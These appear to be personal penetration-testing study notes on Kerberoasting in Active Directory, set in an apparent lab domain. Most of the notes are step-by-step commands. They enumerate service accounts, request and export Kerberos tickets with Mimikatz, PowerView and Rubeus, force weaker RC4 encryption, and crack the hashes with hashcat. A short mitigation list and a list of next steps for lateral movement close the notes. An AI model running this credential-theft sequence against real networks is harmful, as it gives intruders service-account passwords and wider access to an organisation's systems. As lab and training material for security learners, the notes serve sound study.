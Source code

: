 ## Enumerating SPN's with setspn.exe
```shell-session
setspn.exe -Q */*
```

**Targeting a Single User
```shell-session
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

**Retrieving All Tickets Using setspn.exe
```shell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extracting Tickets from Memory with Mimikatz
```shell-session
base64 /out:true
kerberos::list /export
```

**Preparing the Base64 Blob for Cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

**Placing the Output into a File as .kirbi
```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**Extracting the Kerberos Ticket using kirbi2john.py
```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```

**Modifying crack_file for Hashcat
```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

**Viewing the Prepared Hash
```shell-session
cat sqldev_tgs_hashcat
```

**Cracking the Hash with Hashcat
```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

## Automated / Tool Based Route
**Using PowerView to Enumerate SPN Accounts
```shell-session
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

**Using PowerView to Target a Specific User
```shell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

**Exporting All Tickets to a CSV File
```shell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

**Viewing the Contents of the .CSV File
```shell-session
cat .\ilfreight_tgs.csv
```

**Using Rubeus
```shell-session
.\Rubeus.exe
```

**Using the /stats Flag
```shell-session
.\Rubeus.exe kerberoast /stats
```

**Using the /nowrap Flag
```shell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
- High value targets
- nowrap makes it easier to copy for Hashcat

If hash starts with $krb5tgs$23$*, it is RC4 (easier to crack)
$krb5tgs$17$* = AES-128
$krb5tgs$18$* = AES-256

**Check encryption with PowerView
```shell-session
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
- msds-supportedencryptiontypes = 0 is RC4
- msds-supportedencryptiontypes = 24 is AES 128/256

**Cracking the Ticket with Hashcat & rockyou.txt
```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

**Requesting a New Ticket
```shell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

**Running Hashcat & Checking the Status of the Cracking Job
```shell-session
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```

**Using the /tgtdeleg Flag (only request RC4 tickets)
```shell-session
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

**Edit Encryption Types used by Kerberos
Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Network security: Configure encryption types allowed for Kerberos

## Mitigation & Detection
- Managed Service Accounts
- Group Managed Service Accounts
- Very long, complex passwords that automatically rotate on a set interval
- Log Kerberos Authentication
  - Group Policy > Copmuter COnfiguration > Policies > Windows Settings > Security Settings > Advanced Audit Policy Configuration > Audit Policies > Audit Kerberos Authentication Service
 - Restrict RC4

## Continuing Onwards
- Access a host via RDP or WinRM as a local user or a local admin
- Authenticate to a remote host as an admin using a tool such as PsExec
- Gain access to a sensitive file share
- Gain MSSQL access to a host as a DBA user, which can then be leveraged to escalate privileges
